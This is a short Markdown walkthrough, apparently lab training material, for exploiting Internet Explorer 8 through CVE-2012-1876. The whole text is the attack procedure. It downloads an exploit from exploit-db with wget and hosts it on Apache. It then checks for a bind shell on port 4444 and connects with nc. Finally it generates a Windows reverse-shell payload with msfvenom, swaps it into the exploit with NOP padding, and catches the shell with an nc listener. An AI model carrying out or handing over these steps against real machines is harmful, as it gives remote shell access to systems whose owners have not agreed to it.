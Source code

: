 #Browser Exploit
## IE8 Example (CVE: 2012-1876)

1. Find the exploit on exploit-db.com - [here](https://www.exploit-db.com/exploits/24017/)

2. Examine the comments, checking OS/browser type and payload

3. Download the code `wget -O exploit.html https://www.exploit-db.com/download/24017`

4. Move the html file to your web root `mv exploit.html /var/www`

5. Start your apache server `service apache2 start`

On your victim machine

6. Check that port 4444 isn't already open `netstat -a|find "4444"`

7. Browse to your exploit `http://YO.UR.IP.ADR/exploit.html`

8. Confirm that port 4444 is now open `netstat -a|find "4444"`

From your attacking box 

9. Confirm you can now get a shell `nc -v VI.CT.IM.IP 4444`

## Reshaping the shellcode

1. Find the shell in our exploit.html, as you can see it's unicode and 342 bytes long

2. Using msfvenom generate a reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=YO.UR.IP.ADR LPORT=443 -f js_le --platform windows -a x86 -e generic/none
`

3. We can see that the payload is 324 bytes, so we need to fill it with 18 NOPs `%u9090` at the end of our payload

4. Paste our payload into the exploit replacing the old shellcode

5. Setup a listener on our box `nc -lvp 443`

6. Browse to the exploit on your victims machine which will give you a shell on your listener
